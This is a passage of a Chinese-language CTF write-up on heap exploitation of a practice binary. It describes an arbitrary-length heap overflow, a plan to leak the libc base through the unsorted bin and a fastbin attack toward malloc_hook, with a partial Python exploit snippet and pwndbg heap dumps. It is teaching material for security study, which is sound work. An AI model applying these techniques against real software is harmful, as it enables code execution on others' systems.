 ```c
  return result;
}
```

dump 就是输出对应索引 chunk 的内容。

### 利用思路

可以确定的是，我们主要有的漏洞就是任意长度堆溢出。由于该程序几乎所有保护都开启了，所以我们必须要有一些泄漏才可以控制程序的流程。基本利用思路如下

- 利用 unsorted bin 地址泄漏 libc 基地址。
- 利用 fastbin attack 将chunk 分配到 malloc_hook 附近。

#### 泄漏 libc 基地址

由于我们是希望使用 unsorted bin 来泄漏 libc 基地址，所以必须要有 chunk 可以被链接到 unsorted bin 中，所以该 chunk 不能使 fastbin chunk，也不能和 top chunk 相邻。因为前者会被添加到 fastbin 中，后者在不是fastbin 的情况下，会被合并到 top chunk 中。因此，我们这里构造一个 small bin chunk。在将该 chunk 释放到 unsorted bin 的同时，也需要让另外一个正在使用的 chunk 可以同时指向该 chunk 的位置。这样才可以进行泄漏。具体设计如下

```Python
    # 1. leak libc base
    allocate(0x10)  # idx 0, 0x00
    allocate(0x10)  # idx 1, 0x20
    allocate(0x10)  # idx 2, 0x40
    allocate(0x10)  # idx 3, 0x60
    allocate(0x80)  # idx 4, 0x80
    # free idx 1, 2, fastbin[0]->idx1->idx2->NULL
    free(2)
    free(1)
```

首先，我们申请了 5 个chunk，并释放了两个chunk，此时堆的情况如下。

```shell
pwndbg> x/20gx 0x55a03ca22000
0x55a03ca22000:	0x0000000000000000	0x0000000000000021 idx 0
0x55a03ca22010:	0x0000000000000000	0x0000000000000000
0x55a03ca22020:	0x0000000000000000	0x0000000000000021 idx 1
0x55a03ca22030:	0x000055a03ca22040	0x0000000000000000
0x55a03ca22040:	0x0000000000000000	0x0000000000000021 idx 2
0x55a03ca22050:	0x0000000000000000	0x0000000000000000
0x55a03ca22060:	0x0000000000000000	0x0000000000000021 idx 3
0x55a03ca22070:	0x0000000000000000	0x0000000000000000
0x55a03ca22080:	0x0000000000000000	0x0000000000000091 idx 4
0x55a03ca22090:	0x0000000000000000	0x0000000000000000
pwndbg> fastbins 
fastbins
0x20: 0x55a03ca22020 —▸ 0x55a03ca22040 ◂— 0x0
0x30: 0x0
0x40: 0x0
0x50: 0x0
0x60: 0x0
0x70: 0x0
0x80: 0x0

```
